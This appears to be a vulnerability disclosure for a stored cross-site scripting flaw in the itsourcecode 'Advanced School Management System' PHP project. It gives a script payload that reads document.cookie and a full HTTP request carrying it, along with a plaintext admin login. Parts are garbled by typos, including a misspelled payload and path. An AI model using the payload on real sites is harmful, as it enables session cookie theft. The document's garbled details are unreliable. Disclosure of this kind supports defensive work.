




# Advanced School Management System v1.0 by itsourcecode.com has Cross-site Scripting (XSS)
**Vul_Author: Liyuan Jis**

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendor: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability url: ip/school/view/subject.php

Vulnerability location: ip/school/moudel/update_subject.php

[+] Payload: <script>alert(document.cookie)</script>

Tested on Windows 10, phpStudy

There is an exemple with alert:

```
GET /school/model/update_subject.php?id=15&nama=%3Cscript%3Ealert(documant.cookie)%3C/script%3E$do=update_subject HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0(X11;Linux x86_64; rw:91.0) Gecko/20100101Firefox/91.0
Accept: */*
Accept-Language: en-Us,en;q-0.5
Accept-Encoding: gzip,deflate
Connection: close
Referer: http://192.168.1.19/school/view/subject.php
Cookie: PHPSESSID=5nicpveormjn86h3bf398fsem3
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```
We click the subject interface and edit it.

XSS script that writes the burst cookie.

After we update, click subject again.

We have obtained the cookie.
It can be seen from the source code that it is an XSS attack using SQL injection vulnerability.
